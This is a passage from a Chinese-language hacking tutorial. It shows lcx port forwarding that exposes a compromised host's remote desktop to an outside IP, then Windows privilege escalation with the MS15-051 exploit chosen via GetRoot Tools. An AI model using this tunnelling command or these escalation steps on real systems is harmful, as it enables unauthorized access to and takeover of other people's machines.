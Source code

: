 ![](http://ww1.sinaimg.cn/large/841aea59jw1fb56n2ux6ej20gt07kjrv.jpg)

这条命令的意思就是说，监听本机的 51 和 3388 端口，并将两个端口互相转发，端口 51 的入境流量发给端口 3388，反之亦然。其中 51 是用于肉鸡连接的端口。3388 是用于我们的远程连接客户端连接的端口，为了避免与本机的远程连接服务冲突，选择了 3388。大家可以自行选择其他未占用端口。

然后我们在肉鸡上执行：

```
lcx.exe -slave 119.90.140.191 51 127.0.0.1 3389
```

![](http://ww2.sinaimg.cn/large/841aea59jw1fb56n5zhs8j20lo026glh.jpg)

这条命令连接肉鸡的 3389 端口，和本机的 51 端口，并互相转发。

之后，我们在本机或其他主机上使用远程连接客户端，连接`119.90.140.191:3388`，可以看到`lcx`中显示了转发的信息。

![](http://ww1.sinaimg.cn/large/841aea59jw1fb56n8h5txj20gt0a10tg.jpg)

远程连接客户端的封包会发给主机的`lcx`，之后会发给肉鸡的`lcx`，之后会发给肉鸡的远程连接服务。响应封包会按原路返回。

等待一会儿之后，我们成功连接了肉鸡的远程桌面：

![](http://ww1.sinaimg.cn/large/841aea59jw1fb56nbetaaj20j50cjgll.jpg)

## Windows Exp 提权

Exp 提权用于普通方式不好用的时候。

首先我们通过`systeminfo`查看补丁：

![](http://upload-images.jianshu.io/upload_images/118142-db62a3154e7c0d45.jpg)

我们可以看到它安装了`Q147222`。

然后我们使用[GetRoot Tools](https://github.com/gh0stkey/GetRoot-Tools)工具，打开它，主界面是这样的：

![](http://upload-images.jianshu.io/upload_images/118142-420f6ca77da5d0fb.jpg)

我们选中上面的 Windows 2003，然后把`[01]: Q147222`复制到上方的输入框中。之后点击`Search`：

![](http://upload-images.jianshu.io/upload_images/118142-9b5f1021c8dc0a1a.jpg)

这就是我们可以使用的 Exp。我们随便选择一个，比如`MS15-051`。我们可以在课件中的 MS 提权集（`提权-扩大战果/扩大战果-提权之Exploit提权&上帝之门(Windows).zip -> ms提权集/ms15-051/ms15-051`）中找到它。

我们需要根据系统的版本来选择 Exp，这里系统是 32 位的，我们就应该选择`Win32/32.exe`。上传之后，我们可以使用`dir`命令在目录中看到它：

![](http://upload-images.jianshu.io/upload_images/118142-3f57e43595b04f20.jpg)

它的使用方法是`<exp.exe> "<cmd 命令>"`，例如，我们执行`net user`：

![](http://upload-images.jianshu.io/upload_images/118142-1f48ecf494eb4ffb.jpg)

我们可以看到命令执行成功。

## 上帝之门
